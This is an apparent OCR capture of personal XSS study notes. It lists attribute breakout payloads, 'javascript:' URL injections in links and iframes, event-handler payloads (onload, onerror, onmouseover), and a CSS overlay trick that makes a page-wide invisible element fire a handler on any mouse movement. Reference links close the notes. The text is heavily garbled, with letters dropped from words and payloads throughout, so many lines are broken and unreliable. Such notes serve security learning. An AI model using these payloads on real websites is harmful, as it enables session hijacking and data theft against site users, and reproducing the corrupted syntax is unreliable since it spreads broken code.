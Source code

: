 + Brk out Wit
 1. ` - singequtoes:  `'(payload)`
 2. ` - doubl qutoes: `"(payload)`
 3. ace Charaters: `(space, \f, \n, \r, \t)`

+ Exples
 - Bic: `"><sript>alert(document.domain)</script>`
 - Bic: `"</txtarea><script>alert(document.domain)</script>`


     ===========================================================


## [Execution] (2) - URLs
* Us: Html Atributes, Html Tags, JS Functions, URL Schemes
* No that `jaascript:alert()` or `"javascript:alert()"` should work regardless of quotes

+ Pontial TagTargets 
 - Lk:   <a hef="{{input_from_url}}">Link</a>
 - iame: <ifrme src="{{input_from_url}}"></frame>
 
+ Exples:
 - Bic: `javacript:alert(document.domain)`

+ Sale Result that pull from URL:

 - lation = 'avascript:alert()'
 - <rame src=avascript:alert()></iframe>
 - <href=javacript:alert()>Link></a>
 
+ `<>` Elemens is _NOT going to work_ cause it _doesn't host content_ from another webpage


     ===========================================================

    
## [Execution] (3) - Event Handling
* Us: CSS, Evnts, Event Handling, Html Attributes, JS Fucntions, URL Encoding
* Secheat shet _xss-cheat-sheet.pdf_ for more

+ Sale Events
 - _oload_: eecutes given javascript function when tag loads
  * dy Tag Exmple: `<body onload=alert(‘Welcome to Hacking Articles’)>`
 - _error_
  * img src=ivalid onerror=alert()>`
 - _mouseover: when a user moves his cursor over a specific text
  * a onmousever=alert(“50% discount”)>surprise</a>`
 - _c._
 

+ Exples
 - `nload=alet'()`  --->  `class ='title 'onload'='alert()'`


+ Us**CSS Stying** to change _how things appear_ on the website
 - C use `stye`                                                           v--- url encoding
 - Emple: `'omouseover=alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`
                                                                          ^--- % is \x25
 - Sf-Delete style`: `"onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');`
  * n put thi  in between `onmouseover=` and `alert();`
  

[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
